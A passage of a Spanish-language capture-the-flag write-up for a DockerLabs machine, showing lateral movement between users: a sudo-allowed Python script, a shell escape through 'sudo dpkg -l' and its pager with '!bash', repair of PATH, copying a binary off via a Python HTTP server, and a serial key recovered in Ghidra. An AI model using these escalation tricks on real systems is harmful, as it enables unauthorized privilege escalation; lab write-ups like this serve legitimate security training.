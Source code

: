 lo ejecutamos, y finalmente ejecutamos el script como `maci` para escalar a maci:

```css
sudo -u maci python3 /home/maci/.time_seri/time.py 
```

### Maci

Nuevamente ejecutamos `sudo -l` y vemos lo siguiente:

```css
maci@dockerlabs:~/.time_seri$ sudo -l
Matching Defaults entries for maci on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on dockerlabs:
    (darksblack) NOPASSWD: /usr/bin/dpkg
maci@dockerlabs:~/.time_seri$ 
```

Con `dpkg` tenemos una manera muy facil de escalar:

```css
sudo -u darksblack dpkg -l
```

cuando nos aparezca mucha info, introducimos lo siguiente:

```css
!bash
```

### Darksblack

Ahora tendremos una shell como `darksblack`, el problema es que nuestra variable "PATH" esta mal, por lo que tendremos que repararla. Para esto haremos lo siguiente:

```css
echo "y" | /bin/rm ~/.bashrc && echo '#!/bin/bash' > ~/.bashrc && echo 'export PATH=/usr/bin/:/bin/:/usr/local/bin' >> ~/.bashrc
```

luego reiniciamos la shell y ya estaríamos de manera relativamente cómoda. Si nos fijamos en la home, existe un binario llamado "Olympus". Si a este lo revisamos con `strings` veremos que al parecer ejecuta otro binario en `/home/darksblack/.zprofile/OlympusValidator`, este lo pasamos a nuestra máquina local con `python3 -m http.server 9090` y lo descargamos.

#### Ingenieria inversa

Para esto necesitaremos `ghidra` en el cual importaremos el archivo, luego de revisarlo un poco, veo que el serial que espera es el siguiente:

```css
A678-GHS3-OLP0-QQP1-DFMZ
```

y si ejecuto el binario y le paso ese serial me dice lo siguiente:
